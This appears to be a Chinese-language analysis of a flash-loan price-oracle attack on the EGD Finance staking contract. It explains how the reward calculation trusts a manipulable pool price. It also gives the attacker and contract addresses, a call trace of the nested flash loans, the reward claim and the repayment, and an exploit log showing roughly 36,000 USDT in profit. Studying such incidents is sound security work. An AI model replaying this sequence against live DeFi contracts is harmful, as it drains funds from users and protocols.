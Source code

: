 # 主线

閃電貸、回調函數、漏洞利用、了結獲利

# 攻击原理

claimAllReward -> getEGDPrice

使用者領取的 Staking Reward 數量，取決於獎勵因子 quota (代表用戶 Staking 多少代幣、Staking 多久時間)
乘上 getEGDPrice() 目前 EGD Token 的價格。
當 EGD Token 價格越高，則給予的 EGD Token 數量越少，
當 EGD Token 價格越低，則給予的 EGD Token 數量越多。
攻擊者在第二層閃電貸，向 EGD/USDT Pair 借出 USDT；
在攻擊者還款之前，getEGDPrice() 取得到的價格資訊就會是不正確的。

攻擊者透過閃電貸，抽走價格預言機的流動性，使 ClaimReward()
獲取到不正確的價格參考，進而使攻擊者可以領取到異常大量的 EGD Token。
攻擊者利用漏洞取得大量 EGD Token 後，將 EGD Token 透過 Pancakeswap 換回 USDT，獲利了結

# get logic address

1 执行以下代码在 log 能看到 delegatecall 的执行地址是 0x93c175439726797DcEe24D08e4ac9164E88e7Aee ::implementation
address logicAddress = IEGD_FinanceProxy(EGD_Finance).implementation();
2 phalcon 里寻找 deleteCall

# transaction

attack: 0xee0221d76504aec40f63ad7e36855eebf5ea5edd
attackContract: 0xc30808d9373093fbfcec9e026457c6a9dab706a7
VulnerableProxy: 0x34bd6dba456bc31c2b3393e499fa10bed32a9370
VulnerableLogic: 0x93c175439726797dcee24d08e4ac9164e88e7aee

USDT: 0x55d398326f99059fF775485246999027B3197955
WBNB: 0xbb4CdB9CBd36B01bD1cBaEBF2De08d9173bc095c
Pancake_BSC_USD: 0x16b9a82891338f9ba80e2d6970fdda79d1eb0dae(USDT/WBNB)

EDGToken: 0x202b233735bF743FA31abb8f71e641970161bF98
Pancake_EDG_USD 0xa361433e409adac1f87cdf133127585f8a93c67d(EDG/USDT)

attack -> attackContract -> attackContract.harvest()

[VulnerableProxy.calculateAll(attackContract)]

[Swap]

```
// borrow 2000 USDT

Pancake_BSC_USD.swap({
    amount0Out:"2,000,000,000,000,000,000,000"
    amount1Out:"0"
    to:"0xc30808d9373093fbfcec9e026457c6a9dab706a7"
    data:"0x0000"
})

// pancakeCall1
attackContract.pancakeCall({
    _sender:"0xc30808d9373093fbfcec9e026457c6a9dab706a7"
    _amount0:"2,000,000,000,000,000,000,000"
    _amount1:"0"
    _data:"0x0000"
})

// borrow USDT
Pancake_EDG_USD.swap({
    amount0Out:"0"
    amount1Out:"424,456,221,210,335,857,574,110"
    to:"0xc30808d9373093fbfcec9e026457c6a9dab706a7"
    data:"0x00"
})

// pancakeCall2
attackContract.pancakeCall({
    _sender:"0xc30808d9373093fbfcec9e026457c6a9dab706a7"
    _amount0:"0"
    _amount1:"424,456,221,210,335,857,574,110"
    _data:"0x00"
})

VulnerableProxy.claimAllReward()

// back to money
EDGToken.approve({
    spender:"0x10ed43c718714eb63d5aa57b78b54704e256024e"
    amount:"115,792,089,237,316,195,423,570,985,008,687,907,853,269,984,665,640,564,039,457,584,007,913,129,639,935"
})

USDT.transfer({
    recipient:"0x16b9a82891338f9ba80e2d6970fdda79d1eb0dae"
    amount:"2,010,000,000,000,000,000,000"
})
```

# result

```
--------------------  Pre-work, stake 100 USDT to EGD Finance --------------------
Tx: 0x4a66d01a017158ff38d6a88db98ba78435c606be57ca6df36033db4d9514f9f8
Attacker Stake 100 USDT to EGD Finance

-------------------------------- Start Exploit ----------------------------------
[Start] Attacker USDT Balance: 0.000000000000000000
[INFO] EGD/USDT Price before price manipulation: 0.008096310933284567
[INFO] Current earned reward (EGD token): 0.000341874999999972
Attacker manipulating price oracle of EGD Finance...
Flashloan[1] : borrow 2,000 USDT from USDT/WBNB LPPool reserve
Flashloan[1] received
Flashloan[2] : borrow 99.99999925% USDT of EGD/USDT LPPool reserve
Flashloan[2] received
[INFO] EGD/USDT Price after price manipulation: 0.000000000060722331
Claim all EGD Token reward from EGD Finance contract
[INFO] Get reward (EGD token): 5630136.300267721935770000
Flashloan[2] payback success
Swap the profit...
Flashloan[1] payback success
-------------------------------- End Exploit ----------------------------------

[End] Attacker USDT Balance: 36149.420145779809942475
```
